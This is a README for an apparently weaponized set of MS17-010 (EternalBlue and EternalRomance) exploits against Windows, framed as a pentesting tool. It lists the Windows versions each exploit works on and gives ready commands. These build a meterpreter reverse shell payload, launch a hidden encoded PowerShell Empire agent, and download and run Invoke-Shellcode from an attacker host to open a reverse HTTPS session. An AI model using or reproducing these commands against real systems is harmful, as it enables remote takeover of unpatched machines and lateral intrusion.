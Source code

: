 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.  Credit for this goes to vivami (https://github.com/vivami/MS17-010).  I was not able to fork his repo as I also have the repo from warawit.  

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance, so don't try this on critical systems. 

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 R2 SP1 x64
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance (and Eternalsynergy). A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

### Compatible targets

- Windows 2016 x64
- Windows 10 x64
- Windows 10 x86
- Windows 2012 R2 x64
- Windows 2008 R2 SP1 x64
- Windows 2008 SP1 x64
- Windows 2008 SP1 x86
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 7 SP1 x64
- Windows 2003 SP2 x86
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows XP SP3 x86
- Windows 2000 SP4 x86

### Usage

Example for finding a named pipe (not required anymore, exploit now automatically finds a named pipe on the target):

`python find_named_pipe.py 192.168.178.2 testuser Password123`

Usage of `eternalromance.py`: 

`python eternalromance.py <target_ip_address> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)

